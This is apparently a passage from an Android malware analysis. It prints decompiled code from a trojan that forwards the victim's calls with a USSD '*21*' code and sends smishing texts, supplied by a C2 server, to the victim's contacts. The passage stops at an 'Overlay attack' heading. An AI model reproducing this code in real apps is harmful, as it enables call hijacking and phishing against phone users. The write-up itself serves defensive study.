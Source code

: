 ```cs
            try {
                Intent intent1 = new Intent("android.intent.action.CALL");
                intent1.addFlags(0x10000000);
                intent1.setData(Uri.fromParts("tel", "*21*" + s28 + "#", "#"));
                context1.startActivity(intent1);
                String s29 = "ForwardCALL: " + s28 + "[143523#]";
                i2.a("ForwardCall", s29);
                i2.f(context1, i2.a.ab, s29);
                return;
            }
            catch(Exception unused_ex) {
            }
```


## Smishing

The malware has the ability to send SMSs to any contact using the phone number of the victim. The SMS text is received from the C2 server then sent to another victim.

```cs
 public final void send_sms(Context context0, String s, String s1) {
        try {
            SmsManager smsManager0 = SmsManager.getDefault();
            ArrayList arrayList0 = smsManager0.divideMessage(s1);
            int v = 0;
            PendingIntent pendingIntent0 = PendingIntent.getBroadcast(context0, 0, new Intent("SMS_SENT"), 0);
            PendingIntent pendingIntent1 = PendingIntent.getBroadcast(context0, 0, new Intent("SMS_DELIVERED"), 0);
            ArrayList arrayList1 = new ArrayList();
            ArrayList arrayList2 = new ArrayList();
            while(v < arrayList0.size()) {
                arrayList2.add(pendingIntent1);
                arrayList1.add(pendingIntent0);
                ++v;
            }

            smsManager0.sendMultipartTextMessage(s, null, arrayList0, arrayList1, arrayList2);
            String s2 = "Output SMS:" + s + " text:" + s1 + "[143523#]";
            this.a("SMS", s2);
            this.f(context0, this.a.ab, s2);
            this.h(context0, this.sharedpref(context0, this.a.Q));
        }
        catch(Exception unused_ex) {
        }
    }
```


## Overlay attack
